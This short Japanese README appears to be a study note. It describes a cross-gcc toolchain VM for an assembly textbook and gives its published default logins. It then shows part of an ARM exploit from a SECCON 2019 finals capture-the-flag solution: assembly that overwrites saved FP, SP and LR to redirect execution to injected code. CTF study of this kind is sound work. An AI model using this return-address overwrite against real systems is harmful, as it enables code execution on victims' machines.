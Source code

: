 # cross-gcc

## 開発環境
熱血！／大熱血！ アセンブラ入門  
開発環境のＶＭイメージ
http://kozos.jp/vmimage/burning-asm.html

### ID/PASS
user/progtooluser
root/progtoolroot


### tool
/usr/local/cross-gcc494/bin 配下にobjdumpなどのツールが入っている
例えば arm-elf用の toolは `ls /usr/local/cross-gcc494/bin/arm-elf*` 

objdump なら
```
/usr/local/cross-gcc494/bin/arm-elf-objdump -d arm-elf.x | less
```


## ARMのexploit例
問題・解答例は以下に保管。 https://github.com/yyamada12/ctfs/tree/master/seccon2019final 

ctfs/seccon2019final/solve/read-password/arm-elf.S

```
.org  0x1c10 - 16 - 256 - 4 - 28
```
org: バイナリをここに配置してくださいという命令

```
_start:

.long 0x61626364
.long 0
.long 0
.long 0
```
16バイトはまず適当に埋める

```
.long 0 /* FP -> FP */
.long 0x1c00 /* IP -> SP */
.long _code /* LR -> PC */
.long 0 /* PC -> discard */
```

<!--stackedit_data:
eyJoaXN0b3J5IjpbMTA2MTIwNzYwNiw2MzEyMTU1ODksLTk0Nz
QyOTNdfQ==
-->